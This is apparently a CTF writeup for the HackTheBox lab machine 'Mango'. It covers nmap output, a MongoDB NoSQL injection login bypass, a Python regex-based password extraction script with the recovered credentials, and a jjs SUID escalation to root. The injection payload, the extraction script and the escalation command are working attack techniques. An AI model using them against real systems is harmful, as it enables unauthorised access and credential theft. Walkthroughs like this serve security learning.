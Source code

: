 ```yaml
---
layout: post
title: HackTheBox Mango (10.10.10.162) Writeup
description: >
  Hackthebox Mango Writeup
image: /assets/img/mango.png
noindex: false
---
```


First start with an nmap scan

```
Nmap scan report for 10.10.10.162
Host is up, received user-set (0.059s latency).
Scanned at 2019-10-26 15:04:48 EDT for 17s
Not shown: 997 closed ports
Reason: 997 resets
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXYCdNRHET98F1ZTM+H8yrD9KXeRjvIk9e78JkHdzcqCq6zcvYIqEZReb3FSCChJ9mxK6E6vu5xBY7R6Gi0V31dx0koyaieEMd67PU+9UcjaAujbDS3UgYzySN+c5GV/ssmA6wWHu4zz+k+qztqdYFPh0/TgrC/wNPWHOKdpivgoyk3+F/retyGdKUNGjypXrw6v1faHiLOIO+zNHorxB304XmSLEFswiOS8UsjplIbud2KhWPEkY4s4FyjlpfpVdgPljbjijm7kcPNgpTXLXE51oNE3Q5w7ufO5ulo3Pqm0x+4d+SEpCE4g0+Yb020zK+JlKsp2tFJyLqTLan1buN
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqSZ4iBMzBrw2lEFKYlwO2qmw0WPf76ZhnvWGK+LJcHxvNa4OQ/hGuBWCjVlTcMbn1Te7D8jGwPgbcVpuaEld8=
|   256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB1sFdLYacK+1f4J+i+NCAhG+bj8xzzydNhqA1Ndo/xt
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
| SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
| -----BEGIN CERTIFICATE-----
| MIIEAjCCAuqgAwIBAgIJAK5QiSmoBvEyMA0GCSqGSIb3DQEBCwUAMIGVMQswCQYD
| VQQGEwJJTjENMAsGA1UECAwETm9uZTENMAsGA1UEBwwETm9uZTEXMBUGA1UECgwO
| TWFuZ28gUHJ2IEx0ZC4xDTALBgNVBAsMBE5vbmUxIDAeBgNVBAMMF3N0YWdpbmct
| b3JkZXIubWFuZ28uaHRiMR4wHAYJKoZIhvcNAQkBFg9hZG1pbkBtYW5nby5odGIw
| HhcNMTkwOTI3MTQyMTE5WhcNMjAwOTI2MTQyMTE5WjCBlTELMAkGA1UEBhMCSU4x
| DTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUxFzAVBgNVBAoMDk1hbmdvIFBy
| diBMdGQuMQ0wCwYDVQQLDAROb25lMSAwHgYDVQQDDBdzdGFnaW5nLW9yZGVyLm1h
| bmdvLmh0YjEeMBwGCSqGSIb3DQEJARYPYWRtaW5AbWFuZ28uaHRiMIIBIjANBgkq
| hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5fimSfgq3xsdUkZ6dcbqGPDmCAJJBOK2
| f5a25At3Ht5r1SjiIuvovDSmMHjVmlbF6qX7C6f7Um+1Vtv/BinZfpuMEesyDH0V
| G/4X5r6o1GMfrvjvAXQ2cuVEIxHGH17JM6gKKEppnguFwVMhC4/KUIjuaBXX9udA
| 9eaFJeiYEpdfSUVysoxQDdiTJhwyUIPnsFrf021nVOI1/TJkHAgLzxl1vxrMnwrL
| 2fLygDt1IQN8UhGF/2UTk3lVfEse2f2kvv6GbmjxBGfWCNA/Aj810OEGVMiS5SLr
| arIXCGVl953QCD9vi+tHB/c+ICaTtHd0Ziu/gGbdKdCItND1r9kOEQIDAQABo1Mw
| UTAdBgNVHQ4EFgQUha2bBOZXo4EyfovW+pvFLGVWBREwHwYDVR0jBBgwFoAUha2b
| BOZXo4EyfovW+pvFLGVWBREwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsF
| AAOCAQEAmyhYweHz0az0j6UyTYlUAUKY7o/wBHE55UcekmWi0XVdIseUxBGZasL9
| HJki3dQ0mOEW4Ej28StNiDKPvWJhTDLA1ZjUOaW2Jg20uDcIiJ98XbdBvSgjR6FJ
| JqtPYnhx7oOigKsBGYXXYAxoiCFarcyPyB7konNuXUqlf7iz2oLl/FsvJEl+YMgZ
| YtrgOLbEO6/Lot/yX9JBeG1z8moJ0g+8ouCbUYI1Xcxipp0Cp2sK1nrfHEPaSjBB
| Os2YQBdvVXJau7pt9zJmPVMhrLesf+bW5CN0WpC/AE1M1j6AfkX64jKpIMS6KAUP
| /UKaUcFaDwjlaDEvbXPdwpmk4vVWqg==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 26 15:05:05 2019 -- 1 IP address (1 host up) scanned in 17.81 seconds
```
Doing some quick enumeration on port 80 will reveal there is nothing there. The nmap scan reveals a commonName ```stagin-order.mango.htb``` so after adding that to my ```/etc/hosts``` file I am greated with a login page.

![login.png](../../resources/82ac7a3065cf4f50af77ab3f0aef4ece.png)

After some much wasted time I was able to deternine that the box was running MongoDB and required a NoSQL injection. Using *[this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)* I was able to use an authentication bypass exploit using burp.
<br>

I started up burp and intercepted the login request. Then I replaced what was in the data field with ```username[$ne]=toto&password[$ne]=toto```. The request should look something like this.

![request.png](../../resources/a07932a1ed194b71bf5f2a4a1447121e.png)

Now I forwarded that request and was greeted with a new page ```http://http://staging-order.mango.htb/home.php```.

![plantation.png](../../resources/822e1bc164ff46eb9cea6e316a10d469.png)

Now that I am authenticated with the system, I need some way to get some valid credentials so I can gain access to the system. Doing some research there is a way to extract passwords using a python script if you have the correct users. Once you see it start printing multiple '$' then then password is everything before it.

```
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                
                post_data = {'username':username, 'password[$regex]':"^" + payload, 'login':'login'}
                r = requests.post(url, data=post_data, allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)
                        
                        exit(0)
                    break
```
For the users I pretty much just guessed ```admin``` and ```mango```. Doing that gave me these credentials
```
user:mango pass:h3mXK8RhU~f{]f5H
user:admin pass:t9KcS3>!0B#2
```
Using this I was able to SSH in as the user mango and then use the command ```su admin``` to change to the admin user. From there I was able to grab the user flag.
```
$ cat user.txt
79bf31c6c6eb38***************
```
Next step was to run a linux enum script. I chose the linux smart enumeration script. Running that instantly reveals something interesting
```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/run-mailcap
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Some unusual SUID binaries. Taking a look at GTFOBins shows me that ```jjs``` is vulnerable to SUID privilege escalation So thats where I am going to focus my attention. The default command they tell me to run doesnt work. It just hangs and does allow me to execute anything so I had to modify it a little bit to get it to work.
```
Default Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs

Working Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Executing the command you see I get a root shell. The only drawback is that I am unable to see anything that I type but the commands are executed
```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc $@|bash${IFS}-p _ echo bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4#
```
So if I type ```cat /root/root.txt``` then it will output the root flag
```
bash-4.4# 8a8ef79a7a2fbb0**************
```

